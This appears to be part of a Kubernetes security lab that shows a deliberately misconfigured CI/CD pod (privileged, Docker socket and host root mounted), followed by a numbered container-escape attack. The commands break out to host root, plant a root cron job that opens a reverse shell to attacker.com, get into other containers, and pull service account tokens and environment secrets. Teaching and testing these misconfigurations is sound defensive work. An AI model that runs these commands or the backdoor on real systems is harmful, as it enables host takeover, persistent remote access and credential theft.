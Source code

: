 ```yaml
      - name: docker-builder
        image: docker:20.10-dind
        securityContext:
          privileged: true  # ❌ CRITICAL: Privileged access
        volumeMounts:
        - name: docker-socket
          mountPath: /var/run/docker.sock  # ❌ CRITICAL: Docker socket access
        - name: host-root
          mountPath: /host  # ❌ CRITICAL: Host filesystem access
        env:
        - name: DOCKER_HOST
          value: unix:///var/run/docker.sock
        command: ["/bin/sh"]
        args: ["-c", "dockerd-entrypoint.sh & sleep infinity"]
      volumes:
      - name: docker-socket
        hostPath:
          path: /var/run/docker.sock  # ❌ Exposes Docker daemon
          type: Socket
      - name: host-root
        hostPath:
          path: /  # ❌ Exposes entire host filesystem
          type: Directory
```

#### Container Escape Attack Commands
```bash
# Step 1: Access the vulnerable container
kubectl exec -it deployment/vulnerable-ci-cd -n ci-cd -- /bin/sh

# Step 2: Verify Docker socket access
docker version
docker ps

# Step 3: Create privileged container with host filesystem access
docker run -it --privileged --pid=host --net=host \
  -v /:/host alpine:latest chroot /host bash

# Step 4: You now have ROOT access to the host system!
whoami  # Should show 'root'
ls /host/root  # Can access host root directory
ps aux  # Can see ALL host processes

# Step 5: Install backdoor (for educational demonstration)
echo '*/5 * * * * /bin/bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"' >> /var/spool/cron/crontabs/root

# Step 6: Access other containers on the node
docker ps --format "table {{.Names}}\t{{.Image}}\t{{.Status}}"
docker exec -it <other-container> /bin/sh

# Step 7: Extract secrets from other containers
docker inspect <container-name> | grep -i env
docker exec <container-name> cat /var/run/secrets/kubernetes.io/serviceaccount/token
```
